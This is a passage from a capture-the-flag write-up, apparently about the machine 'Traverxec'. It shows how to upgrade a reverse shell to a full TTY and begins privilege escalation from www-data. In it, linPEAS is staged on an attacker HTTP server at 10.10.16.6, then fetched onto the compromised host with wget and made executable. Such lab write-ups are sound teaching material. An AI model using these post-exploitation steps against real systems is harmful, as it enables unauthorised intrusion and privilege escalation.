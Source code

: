 Define the terminal type, `xterm` works 99% of the time:

```text
> Terminal Type? xterm
```

Enable clear screen and movement with `xterm`and enable bash:

```text
export TERM=xterm
export SHELL=bash
```

In another console from your host get the rows and columns of the terminal:

```text
stty -a
```

In the reverse shell set the rows and columns this will fix the margins of your terminal:

```text
stty rows <num> columns <cols>
```

Now confirm that you're in TTY shell with:

```text
tty
```

# Privilege Escalaton: www-data –> david

## linPEAS

Download linPEAS from github:

```shell
❯ wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```

Setup an HTTP listener:

```shell
❯ sudo python3 -m http.server 80
```

After some looking around, I decided to upload and run linPEAS:

```shell
www-data@traverxec:/dev/shm$ wget  10.10.16.6/linpeas.sh
--2021-10-17 18:33:29--  http://10.10.16.6/linpeas.sh
Connecting to 10.10.16.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 477235 (466K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... .......... 10%  160K 3s
    50K .......... .......... .......... .......... .......... 21%  518K 2s
   100K .......... .......... .......... .......... .......... 32%  298K 1s
   150K .......... .......... .......... .......... .......... 42%  422K 1s
   200K .......... .......... .......... .......... .......... 53%  346K 1s
   250K .......... .......... .......... .......... .......... 64%  422K 1s
   300K .......... .......... .......... .......... .......... 75%  328K 0s
   350K .......... .......... .......... .......... .......... 85%  318K 0s
   400K .......... .......... .......... .......... .......... 96%  330K 0s
   450K .......... ......                                     100% 7.59M=1.4s

2021-10-17 18:33:30 (328 KB/s) - 'linpeas.sh' saved [477235/477235]

www-data@traverxec:/dev/shm$ chmod +x linpeas.sh
```